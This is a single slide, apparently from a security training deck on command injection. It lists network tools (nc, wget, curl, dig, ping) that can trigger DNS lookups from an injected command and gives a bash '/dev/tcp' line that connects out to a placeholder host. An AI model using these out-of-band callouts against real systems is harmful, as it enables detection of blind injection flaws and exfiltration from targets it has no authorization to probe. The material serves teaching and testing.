

# Command Injection
25
To trigger a DNS resolution on an injected command, there are several options
nc, wget, curl, dig, ping are commands normally installed in Linux distributions and they can issue a DNS resolution
It is possible to use the command in bash injections
echo 1 > /dev/tcp/*hostname*/*someport*